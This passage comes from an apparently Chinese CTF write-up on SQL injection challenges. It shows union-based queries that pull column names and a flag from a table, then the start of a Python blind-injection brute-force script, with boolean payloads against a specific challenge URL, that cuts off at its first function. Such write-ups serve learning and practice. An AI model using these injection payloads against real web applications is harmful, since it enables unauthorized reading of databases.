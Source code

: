 
然后查询表fl4g的列名。
`?id=-1 union select 1,(select count(*) from information_schema.columns where table_name='fl4g')`

可知只有一个列，然后
`id=-1 union select 1,(select * from fl4g)`

![28](/assets/nwuctf/2/28.png)

当然你也可以用其他方法，比如报错注入。

### `10.sql注入漏洞`

加了一些过滤，不过把资料看看迟早能弄出payload来。

![29](/assets/nwuctf/2/29.png)

这里给个爆破脚本。

```python
import requests as reqts

url = 'http://123.207.166.65/nwuctf/zfgbhjyuk.php?id=1'
#payload1 = "' and length((select table_name from information_schema.tables where table_schema regexp database() limit 1,1)) between '{}' and '{}'--+"
#payload2 = "' and right((select table_name from information_schema.tables where table_schema regexp database() limit 1,1),{}) regexp binary '{}'--+"
#payload1 = "' and length((select column_name from information_schema.columns where table_name regexp 'fla49' limit 0,1)) between '{}' and '{}'--+"
#payload2 = "' and right((select column_name from information_schema.columns where table_name regexp 'fla49' limit 0,1),{}) regexp binary '{}'--+"
payload1 = "' and length((select flag from fla49)) between '{}' and '{}'--+"
payload2 = "' and right((select flag from fla49),{}) regexp binary '{}'--+"

def get_len():
```